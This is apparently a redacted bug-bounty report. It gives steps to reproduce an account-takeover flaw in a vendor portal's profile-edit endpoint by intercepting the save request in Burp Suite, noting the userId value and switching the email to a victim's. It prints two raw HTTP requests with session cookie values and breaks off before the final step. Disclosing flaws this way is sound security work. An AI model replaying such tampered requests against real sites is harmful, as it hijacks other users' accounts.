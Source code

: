 
## Steps to Reproduce
1. Go to https://████████/
2. Go to vendor login.
3. Make one attacker account and one victim account.
4. Login as attacker.
5.  Go to My Account.
6. Update your profile and intercept your request with burp suite, make sure your foxy proxy is on, you will notice this request, take a look at userId parameter and save it your notepad:

```javascript
POST /█████/EditUserProfile/Save HTTP/1.1
Host: ███
Cookie: .AspNetCore.Antiforgery.w; TS014b77bb=; .AspNetCore.Mvc.CookieTempDataProvider=CfDJ8NZcuopxrrlAnVqYGUtWQxtsA-gq_U4VzTT_UPVtffN4Mp5xSVzjEI6YzVkINoX_FoCmnYWsUdpP1PX2y57UYI527e0mBw40qounVa_WpXWkEiRpco5mBm8LQVC0y_XBbRbcAGbytrA24EqhocKSOupfTKtFzK-iB_2L9ekRNotla0UYoapvcWFDrQZ-KUQn0O65nIfoxkr6gu9jl3nhpy0; .AspNetAuth=CfDJ8NZcuopxrrlAnVqYGUtWQxuUeFWKVXEqlOxL4TNcHc5b0VL5A7Lnq1diP3edMqJn024bJDCv72IDREsFTjeownrswgIQhDCRm_pDHpxUl6_FRedhYqLjnIV5TzDmQgGT6_QoN5XVl-v9n2B5fmWKcfASedgyauzJzwBwafxFKjbIBpmm5oZoBHuDuVTUDFsreYhEbHVPoQDppRn2VhUQ5Vo-QjWelfM8Vi0R8XS98tC1r0j5npE_JKl-GcWXdtzXIgYLS9t9X05kp3a2dcTTUue33v_4taplSArGZzlHWHLYpMz3tLPE07hTkBrjvKCdpw; ASP.NET_SessionId=; TS0144f203=01d263603a2c7f22f24b6e3dc5545eac2dac86e22b777fbefec77dd724498f634cba9a604948cca126e23e438871080faec4034c4fabc579539aadf5f7b2713082206f08b6604332ce5d3a8f14b0f98a460f109128752513a960c47e1656d275e66a06feee; CSRF-TOKEN=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: hr,hr-HR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 537
Origin: https://████
Referer: https://████/██████████/EditUserProfile
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

Email=attacker@gmail.com&PositionTitleIds=10&Title=Pentester&FirstName=attacking&MiddleName=test&LastName=wearehackerone&PhoneNumber=&LanguageId=&Password=&ConfirmPassword=&userId=123464&passChange=true&PersonProfileId=0&CitizenshipId=101&__RequestVerificationToken=
```
6.  Change email to new email: example I changed to this email: █████████ or to ███████
7. But make sure you created victim account.  So, change it to the victim email.
8. Before you change your email, make sure to turn your foxy proxy on and open your burp suite.
9. Now change to victim email.
10. In http history (in Burp Suite) you will notice this request:

```javascript
POST /███/EditUserProfile/Save HTTP/1.1
Host: █████████
Cookie: .AspNetCore.Antiforgery.w; TS014b77bb=; .AspNetCore.Mvc.CookieTempDataProvider=CfDJ8NZcuopxrrlAnVqYGUtWQxtsA-gq_U4VzTT_UPVtffN4Mp5xSVzjEI6YzVkINoX_FoCmnYWsUdpP1PX2y57UYI527e0mBw40qounVa_WpXWkEiRpco5mBm8LQVC0y_XBbRbcAGbytrA24EqhocKSOupfTKtFzK-iB_2L9ekRNotla0UYoapvcWFDrQZ-KUQn0O65nIfoxkr6gu9jl3nhpy0; .AspNetAuth=CfDJ8NZcuopxrrlAnVqYGUtWQxuUeFWKVXEqlOxL4TNcHc5b0VL5A7Lnq1diP3edMqJn024bJDCv72IDREsFTjeownrswgIQhDCRm_pDHpxUl6_FRedhYqLjnIV5TzDmQgGT6_QoN5XVl-v9n2B5fmWKcfASedgyauzJzwBwafxFKjbIBpmm5oZoBHuDuVTUDFsreYhEbHVPoQDppRn2VhUQ5Vo-QjWelfM8Vi0R8XS98tC1r0j5npE_JKl-GcWXdtzXIgYLS9t9X05kp3a2dcTTUue33v_4taplSArGZzlHWHLYpMz3tLPE07hTkBrjvKCdpw; ASP.NET_SessionId=; TS0144f203=01d263603a2c7f22f24b6e3dc5545eac2dac86e22b777fbefec77dd724498f634cba9a604948cca126e23e438871080faec4034c4fabc579539aadf5f7b2713082206f08b6604332ce5d3a8f14b0f98a460f109128752513a960c47e1656d275e66a06feee; CSRF-TOKEN=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: hr,hr-HR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
```